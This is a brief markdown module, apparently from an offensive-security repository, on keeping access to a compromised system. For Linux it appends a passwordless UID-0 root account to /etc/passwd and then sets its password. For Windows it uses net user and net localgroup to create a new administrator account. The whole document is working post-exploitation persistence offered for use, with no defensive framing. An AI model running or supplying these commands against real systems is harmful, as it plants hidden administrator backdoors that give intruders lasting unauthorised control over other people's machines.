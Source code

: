 # Creating a New User on Compromised System
This module will quickly describe the steps taken to add a new user onto a compromised system when you have root/administrative access.
## LINUX (Bash/Shell Method)
1. Create the user with no password entry:

`echo 'trevelyn::0:0:root:/root:/bin/bash' >> /etc/passwd`

2. Update the user's passsword to the username

`echo "trevelyn:trevelyn"| /usr/sbin/chpasswd`

## WINDOWS (DOS Method)
1. Create the new user:

`net user (USER NAME) /add`

2. Set User's Password:

`net user (USERNAME) (PASSWORD)`

3. Add user to Admins:

`net localgroup administrators (USER NAME) /add`

4. Double Check:

`net localgroup administrators`
